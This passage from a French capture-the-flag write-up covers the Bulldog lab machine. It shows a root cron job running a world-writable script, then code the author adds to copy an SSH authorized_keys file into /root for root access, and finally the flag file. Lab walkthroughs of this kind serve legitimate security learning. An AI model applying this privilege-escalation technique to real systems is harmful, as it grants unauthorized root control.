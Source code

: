 ```plain
django@bulldog:~/bulldog$ ls /etc/cron.d
mdadm  popularity-contest  runAV
django@bulldog:~/bulldog$ cat /etc/cron.d/runAV
*/1 * * * * root /.hiddenAVDirectory/AVApplication.py
django@bulldog:~/bulldog$ cat /.hiddenAVDirectory/AVApplication.py
#!/usr/bin/env python

# Just wanted to throw this placeholder here really quick.
# We will put the full AV here when the vendor is done making it.
# - Alan
django@bulldog:~/bulldog$ ls -al /.hiddenAVDirectory/AVApplication.py
-rwxrwxrwx 1 root root 157 Aug 25 22:12 /.hiddenAVDirectory/AVApplication.py
```

Hahaha la bonne blague, un fichier world-writable lancé par root :p  

Il y a bien des manières de récupérer l'accès root via l'édition du fichier mais j'ai opté pour la copie du *authorized\_keys* de *django* vers *root*.  

```python
#!/usr/bin/env python

# Just wanted to throw this placeholder here really quick.
# We will put the full AV here when the vendor is done making it.
# - Alan
import os
if not os.path.exists("/root/.ssh"):
        os.system("mkdir /root/.ssh")
        os.system("cp /home/django/.ssh/authorized_keys /root/.ssh/")
```

J'aurais pu utiliser + de la lib standard de Python mais j'ai eu la flemme de regarder dans la doc si *os.mkdir* prend des permissions à la *chmod* ou à la *umask* :D donc *os.system* FTW !  

Il ne nous reste que le fameux flag :  

```plain
root@bulldog:~# cat congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!
```

Nota bene
---------

Je n'ai pas croisé de Mongo ni dans les ports en écoute ni dans les process donc je ne suis pas allé plus loin de ce côté. Quand à l'interface d'admin utilisant Django les droits des utilisateurs sont stockés via une base sqlite3.
Une fois éditée pour rajouter nick en admin on voit que l'interface ne propose rien de plus que la gestion des utilisateurs (donc useless).  
